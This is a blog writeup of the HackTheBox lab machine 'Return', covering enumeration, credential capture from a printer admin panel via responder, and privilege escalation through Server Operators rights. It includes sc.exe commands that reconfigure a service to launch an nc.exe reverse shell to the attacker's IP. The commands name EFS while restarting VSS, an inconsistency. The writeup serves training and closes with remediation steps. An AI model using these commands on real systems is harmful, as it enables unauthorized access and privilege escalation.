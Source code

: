 ```yaml
---
layout: writeup
title: Return - HackTheBox
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Forest Box from HackTheBox
image: # /assets/images/Return/Return.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, LainKusanagi, Windows, Server Operators]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Return, and it is rated Easy by HackTheBox. As usual, we get started with an nmap scan. I'm using my own [custom script](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh) for this which (gives more detail but) shows these open ports:

```
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Looks like we have a few different paths to go down. I add `return.local` to `/etc/hosts` and try the usual enum4linux, smb, rpc paths, and none of them go anywhere without auth so I visit the web page in the browser, and I see the HTB Printer Admin Panel. 

![Return2.png](/assets/images/Return/Return2.png){: .responsive-image}

The Fax and Troubleshooting pages go nowhere, but the settings page has a place to input some parameters.

![Return3.png](/assets/images/Return/Return3.png){: .responsive-image}

I don't have a different username or password yet obviously, but I can fiddle with the address. It won't download anything when I set up a python server, but if I run `sudo responder -I tun0` and enter my own IP into the Server Address field, I am able to capture what look like clear text credentials. 

![Return4.png](/assets/images/Return/Return4.png){: .responsive-image}

I check for SMB and WinRM access, and while I don't find anything interestingin SMB, I do have winrm access with this user. And it looks like we have some pretty interesting privileges:

![Return5.png](/assets/images/Return/Return5.png){: .responsive-image}

I tried to use SeBackupPrivilege to my advantage based on [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens), but I couldn't get anything working so I ran winpeas to see if there was anything else I might be missing. One thing that stands out is that there are a ton (these are just a few) of services we can modify. 

![Return6.png](/assets/images/Return/Return6.png){: .responsive-image}

This is because the svc-printer user is in the Server Operators group. We see this output in winpeas, but we apparently are allowed to simply list the services, so we may need to just pick a few and try them. 

![Return7.png](/assets/images/Return/Return7.png){: .responsive-image}

I try a few of them - RmSVC, DFSR, CNG, but VSS or Volume Shadow Copy Service, actually works. You do need to upload or find nc.exe, but it's just as easy to upload it, espeically with evil-winrm, so I put it in our user's home. The commands are: 
- `sc.exe config EFS binpath="C:\windows\system32\cmd.exe /c C:\Users\svc-printer\nc.exe -e cmd 10.10.14.3 445"`
- `sc.exe stop VSS`
- `sc.exe start VSS`

And we get a shell. 

![Return8.png](/assets/images/Return/Return8.png){: .responsive-image}

### Lessons Learned
The foothold was pretty simple, but the privesc was a little trickier for me. I would just say I learned a new technique to use when our user is a member of the "Server Operators" group, and that VSS is a good service to abuse, perhaps in this case because we have SeBackupPrivilege, and VSS is integral to backup and recovery operations?

### Remediation Steps
- Patch the HTB Printer Admin Panel service
- At minimum don't allow it to send plaintext credentials
- Whitelist which IPs could be used for that
- The svc-printer user should not also be a member of the Server Operators group or have backup privileges. Service accounts should be restricted to what they are used for according to the principle of least privilege. 